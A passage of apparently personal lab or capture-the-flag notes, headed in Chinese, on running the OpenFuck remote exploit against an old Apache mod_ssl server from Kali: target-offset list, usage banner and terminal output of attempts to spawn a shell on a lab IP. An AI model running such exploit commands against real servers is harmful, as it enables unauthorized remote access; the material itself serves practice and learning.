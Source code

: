 						  
						    Supported OffSet:
						          0x00 - Caldera OpenLinux (apache-1.3.26)
						          0x01 - Cobalt Sun 6.0 (apache-1.3.12)
						          0x02 - Cobalt Sun 6.0 (apache-1.3.20)
						          0x03 - Cobalt Sun x (apache-1.3.26)
						          0x04 - Cobalt Sun x Fixed2 (apache-1.3.26)
						          0x05 - Conectiva 4 (apache-1.3.6)
						          0x06 - Conectiva 4.1 (apache-1.3.9)
						          0x07 - Conectiva 6 (apache-1.3.14)
						          0x08 - Conectiva 7 (apache-1.3.12)
						          0x09 - Conectiva 7 (apache-1.3.19)
						          0x0a - Conectiva 7/8 (apache-1.3.26)
						          0x0b - Conectiva 8 (apache-1.3.22)
						  
						  ```
					- 確認指令要的各參數
						- ```shell
						  *******************************************************************
						  * OpenFuck v3.0.32-root priv8 by SPABAM                           *
						  * [...]                                                           *
						  * Usage: ./OpenFuck target box [port] [-c N]                      *
						  * [...]                                                           *
						  *******************************************************************
						  
						  Example: ./OpenFuck 0x6a 192.168.1.100 443 -c 40
						  ```
					- 嘗試攻擊 (可能會失敗，要多嘗試其他參數，像 target)
					  collapsed:: true
						- ```shell
						  ┌──(kali㉿kali)-[~/Documents]
						  └─$ ./OpenFuck 0x6a 192.168.204.44 443 -c 40
						  
						  *******************************************************************
						  * OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
						  *******************************************************************
						  * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
						  * #hackarena  irc.brasnet.org                                     *
						  * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
						  * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
						  * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
						  *******************************************************************
						  
						  Connection... 40 of 40
						  Establishing SSL connection
						  cipher: 0x4043808c   ciphers: 0x80f8050
						  Ready to send shellcode
						  Spawning shell...
						  Good Bye!
						                                                                                                                                                                                               
						  ┌──(kali㉿kali)-[~/Documents]
						  └─$ ./OpenFuck 0x6b 192.168.204.44 443 -c 40
						  